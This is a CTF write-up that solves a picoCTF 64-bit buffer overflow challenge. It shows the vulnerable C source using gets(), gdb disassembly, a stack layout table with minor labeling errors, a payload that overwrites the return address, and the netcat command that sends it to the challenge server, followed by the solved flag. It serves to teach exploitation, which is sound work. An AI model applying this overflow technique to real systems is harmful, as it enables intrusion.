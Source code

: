 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/C12B482.png
points: 200
solves: 2473
tags: binary-exploitation x64 buffer-overflow
date: 1337-11-28
comments: false
---
```


Overflow x64 code  
Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/x64vuln). Download [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/x64vuln.c).  
`nc saturn.picoctf.net [port #]`  

---

We're given a binary ELF file and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

First things first, create a `flag.txt` file and enter whatever text you’d like so we can run the program in our local machine.  
`chmod +x vuln` to enable execution  
`gdb vuln` to enter debugger  
`disass vuln`:  
```
Dump of assembler code for function vuln:

   0x00000000004012b2 <+0>:     endbr64 
   0x00000000004012b6 <+4>:     push   %rbp
   0x00000000004012b7 <+5>:     mov    %rsp,%rbp
   0x00000000004012ba <+8>:     sub    $0x40,%rsp
   0x00000000004012be <+12>:    lea    -0x40(%rbp),%rax
   0x00000000004012c2 <+16>:    mov    %rax,%rdi
   0x00000000004012c5 <+19>:    mov    $0x0,%eax
   0x00000000004012ca <+24>:    call   0x401100 <gets@plt>
   0x00000000004012cf <+29>:    nop
   0x00000000004012d0 <+30>:    leave  
   0x00000000004012d1 <+31>:    ret
End of assembler dump.
```

   `0x00000000004012b7 <+5>:     mov    %rsp,%rbp`
This instruction makes it so that `rsp` and `rbp` point to the same address  
   `0x00000000004012ba <+8>:     sub    $0x40,%rsp`  
This instruction creates 0x40, i.e. 64, bytes of space.  

Currently, the stack looks like this:  

|Stack                  |Stack Offset   |
|:----------------------|:--------------|
|Return Address (rdi)   |0x48 - 0x56    |
|Base Pointer (rbp)     |0x40 - 0x48    |
|0x40 bytes of space    |0x0 - 0x40     |
|Stack Pointer (rsp)    |0x0            |

Given that the vuln function utilizes the gets function for input, we know we can perform a buffer overflow attack to overwrite the return address.  

Let’s dynamically confirm where the input is stored on the stack:  

`b *vuln+29` to set a breakpoint right after the call function finishes.  
`r` to run the function  
Enter whatever input you can recognize in hex form.  
`x/100x $rsp` to check the stack  
You should see something like the following in the first few rows:  

    0x7fffa44053b0: 0x61616161      0x61616161      0x00616161      0x00007fc6
    0x7fffa44053c0: 0x6777c780      0x00007fc6      0x675e3765      0x00007fc6
    0x7fffa44053d0: 0x00000000      0x00000000      0xa4405420      0x00007fff

Note that our input (I entered ‘aaaaaaaaaaa’) shows up in the beginning of the stack. Thus, our input is definitely located at `$rsp+0x0`
`disass flag`:  
```
Dump of assembler code for function flag:
   0x0000000000401236 <+0>:     endbr64 
   0x000000000040123a <+4>:     push   %rbp
   0x000000000040123b <+5>:     mov    %rsp,%rbp
   0x000000000040123e <+8>:     sub    $0x50,%rsp
   0x0000000000401242 <+12>:    lea    0xdbf(%rip),%rsi        # 0x402008
   0x0000000000401249 <+19>:    lea    0xdba(%rip),%rdi        # 0x40200a
   0x0000000000401250 <+26>:    call   0x401130 <fopen@plt>
   0x0000000000401255 <+31>:    mov    %rax,-0x8(%rbp)
   0x0000000000401259 <+35>:    cmpq   $0x0,-0x8(%rbp)
   0x000000000040125e <+40>:    jne    0x401289 <flag+83>
   0x0000000000401260 <+42>:    lea    0xdac(%rip),%rdx        # 0x402013
   0x0000000000401267 <+49>:    lea    0xdba(%rip),%rsi        # 0x402028
   0x000000000040126e <+56>:    lea    0xde8(%rip),%rdi        # 0x40205d
   0x0000000000401275 <+63>:    mov    $0x0,%eax
   0x000000000040127a <+68>:    call   0x4010e0 <printf@plt>
   0x000000000040127f <+73>:    mov    $0x0,%edi
   0x0000000000401284 <+78>:    call   0x401140 <exit@plt>
   0x0000000000401289 <+83>:    mov    -0x8(%rbp),%rdx
   0x000000000040128d <+87>:    lea    -0x50(%rbp),%rax
   0x0000000000401291 <+91>:    mov    $0x40,%esi
   0x0000000000401296 <+96>:    mov    %rax,%rdi
   0x0000000000401299 <+99>:    call   0x4010f0 <fgets@plt>
   0x000000000040129e <+104>:   lea    -0x50(%rbp),%rax
   0x00000000004012a2 <+108>:   mov    %rax,%rdi
   0x00000000004012a5 <+111>:   mov    $0x0,%eax
   0x00000000004012aa <+116>:   call   0x4010e0 <printf@plt>
   0x00000000004012af <+121>:   nop
   0x00000000004012b0 <+122>:   leave  
   0x00000000004012b1 <+123>:   ret    
End of assembler dump.
```

The important thing here is the address of the flag function, `0x0000000000401236`.  
We need to overwrite the return address, which is located at offset `$rsp+0x48`. (This is because there is 0x40 bytes of space between the stack pointer and base pointer and the base pointer itself is 0x8 bytes since this is x64).  
We can send a hex-encoded input to ./vuln to do this.  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*72)" > input
echo -ne '\x36\x12\x40\x00\x00\x00\x00\x00' >> input</code>
</pre>

The first command writes 72 ‘a’ characters to the file input for the buffer, i.e. to get to offset 0x48.  
The second part writes the hex values of the flag function address, which we cannot easily write in ascii. Note that the bytes are written in reverse order because of little endianness.  

Run ./vuln < input, which should return the contents of your `flag.txt` file.  

---

If you instead received a segmentation fault without the flag, check the second hint of the problem, which states: Jump to the second instruction (the one after the first push) in the `flag` function, if you're getting mysterious segmentation faults.  

To fix this, we need to jump to the instruction right after the first push in the `flag` function:  
`0x000000000040123b <+5>:     mov    %rsp,%rbp`  

This has address `0x000000000040123b`, so we we only need to slightly modify our commands:  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*72)" > input
echo -ne '\x3b\x12\x40\x00\x00\x00\x00\x00' >> input</code>
</pre>

Now you should get your `flag.txt` file contents.  

---

Once you receive your `flag.txt` file contents, the challenge is done!  
Run `nc -q 2 saturn.picoctf.net [port #] < input`, which will return your flag.  
Note that `-q 2` makes the connection wait 2 seconds after the EOF (end of file) before closing input, which allows us to receive the flag.  

    picoCTF{b1663r_15_b3773r_d95e02b6}
